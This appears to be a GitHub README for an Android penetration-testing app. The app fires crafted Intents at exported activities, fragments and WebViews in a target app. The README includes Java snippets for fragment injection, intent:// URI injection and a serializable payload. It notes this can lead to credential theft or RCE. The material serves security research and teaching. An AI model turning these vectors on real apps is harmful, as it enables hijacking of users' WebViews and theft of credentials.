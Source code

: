 # Target Exploit Tool

An Android penetration testing application designed to exploit vulnerabilities in exported functions.

## Overview

This tool provides a simple interface to test multiple security vulnerabilities when discovering exported functions in an app. It includes buttons to launch different exploit vectors and displays results in a real-time log.

The result looks like this:

![App Screenshot](./imgs/app.png)

*Target Exploit Tool interface with exploit buttons and real-time log display*

## Features

### Example Exploit Methods

1. **BlankActivity Exploitation**
   - Targets: `BlankActivity` with `CustomPageFragment`
   - Vulnerability: Fragment injection via Intent extras
   - Method: Launches CustomPageFragment with malicious URL

2. **ForgotPassword Targeting**
   - Targets: Forgot Password WebView
   - Vulnerability: WebView with exposed JavaScript interface
   - Method: Injects custom URL into forgot password WebView

3. **RedirectFragment Direct Launch**
   - Targets: RedirectFragment directly
   - Vulnerability: Redirect page URL injection
   - Method: Direct fragment launch with malicious URL

4. **DeepActivity Intent Injection**
   - Targets: `DeepActivity.navToActivity()` method
   - Vulnerability: `Intent.parseUri()` processing
   - Method: Intent injection with custom URI schemes

## Prerequisites

- Android Studio or compatible IDE
- Android SDK (API 24+)
- Target device with target app installed
- USB Debugging enabled on target device
- Java 25

## Installation

1. **Clone/Download** this project
2. **Open** in Android Studio
3. **Build** the project in Android Studio
4. **Install** on device:
   `adb install C:\<Path-To-App>\app-debug.apk`

## Usage

1. **Launch** the target Exploit Tool app
2. **Enter** your target URL (default: `https://counterhack.com`)
3. **Select** an exploit method by tapping the corresponding button
4. **Monitor** the log output for results

### Exploit Buttons

- **Test BlankActivity**: Launches BlankActivity with CustomPageFragment
- **Test ForgotPassword**: Targets payment processing WebView
- **Test RedirectFragment**: Direct CustomPageFragment exploitation
- **Test DeepActivity Intent**: Intent injection via HomeActivity

## Technical Details

### Exploit Mechanisms

These exploits target mainly webView but do illustrate how to craft exploits. In example, if there is an exported vulnerable webView function, we can target them and redirect the app to a site we controll and execute JavaScript code there. Then we can achive RCE or steal credentials and so on.

#### 1. BlankActivity Vector
```java
Intent intent = new Intent();
intent.setClassName(TARGET_PACKAGE, TARGET_PACKAGE + ".views.BlankActivity");
intent.putExtra("bundle_key_start_with_fragment_name", "CustomPageFragment");
intent.putExtra("bundle_key_start_fragment_with_args", createCustomPageBundle(url));
```

#### 2. Intent Injection Vector
```java
String intentUri = "intent://" + url + "#Intent;scheme=https;end";
Intent intent = new Intent();
intent.setAction(Intent.ACTION_VIEW);
intent.setData(Uri.parse(intentUri));
intent.setClassName(TARGET_PACKAGE, TARGET_PACKAGE + ".activities.HomeActivity");
```

#### 3. CustomPage Serialization
```java
private static class CustomPageData implements java.io.Serializable {
    private String mUrl;
    private String mData;
    
    public CustomPageData(String url) {
        this.mUrl = url;
        this.mData = url;
    }
}
```

## Security Research Context

This tool was developed to demonstrate the following vulnerability classes:

1. **Exported Activity Exploitation**
   - Improper Intent validation
   - Fragment injection attacks

2. **WebView Security Issues**
   - JavaScript interface exposure
   - URL validation bypass

3. **Intent Injection Attacks**
   - `Intent.parseUri()` vulnerabilities
   - Deep link processing flaws


## Building from Source

### Requirements
- Java 25+
- Android SDK 34
- Gradle 8.0+



### Project Structure
```
app/
├── src/main/
│   ├── java/com/pentest/chi/
│   │   └── MainActivity.java
│   ├── res/
│   │   ├── layout/activity_main.xml
│   │   ├── values/strings.xml
│   │   └── values/themes.xml
│   └── AndroidManifest.xml
├── build.gradle
└── proguard-rules.pro
```

## Log Output

The app provides real-time logging of exploit attempts:

```
[10:30:15] target Exploit Tool initialized
[10:30:15] ✓ Target app found: com.target.exported.function
[10:30:20] === EXPLOIT 1: BlankActivity ===
[10:30:20] Target: BlankActivity with CustomPageFragment
[10:30:20] URL: https://counterhack.com
[10:30:21] ✓ BlankActivity exploit launched
```

## Troubleshooting

### Common Issues

1. **Target app not found**
   - Ensure target app is installed, sometimes it's a false positive

2. **Permission denied**
   - Enable USB debugging
   - Grant "Install unknown apps" permission

3. **Build failures**
   - Check Java/Android SDK versions
   - Sync project with Gradle files

4. **Exploit failed, permission denied**
   -  Check that the function you are targeting is exported
   -  Check the logs by running `adb logcat > C:\Users\TGC\Desktop\debugginglogs.logs`, pass it to an LLM and pray

## Contributing


Talk to TGC
